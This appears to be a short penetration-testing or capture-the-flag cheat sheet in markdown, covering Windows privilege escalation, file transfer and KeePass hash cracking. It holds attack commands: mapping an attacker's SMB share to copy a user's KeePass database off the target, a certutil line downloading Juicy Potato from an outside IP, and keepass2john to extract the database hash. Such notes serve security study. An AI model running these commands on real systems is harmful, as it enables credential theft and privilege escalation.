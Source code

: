 ### SeMachineAccountPrivilege
[[Heist]]
### Automated Scripts
#### JAWS
Execute [JAWS](https://github.com/411Hall/JAWS) script 
# Transferring Files 

## SMB Server 

On Kali box
```
impacket-smbserver NameofShare `pwd`
```

On Target box 
```
New-PSDrive -Name "NameofDrive" -PSProvider "FileSystem" -Root "\\10.10.14.30\NameofShare"
```

Change into drive on target box
```
cd NameofDrive
```

Copy file to transfer into the directory 
```
cp C:\Windows\kohsuke\Documents\CEH.kdbx .
```

## SCP

## Command Prompt 
**Certutil**
```
certutil -urlcache -split -f http://192.168.45.152:8888/Juicy.Potato.x86.exe
```


# Hash Cracking 

## John 

### Obtain hash from KeePass database 

```
keepass2john CEH.kdbx
```

## Hashcat
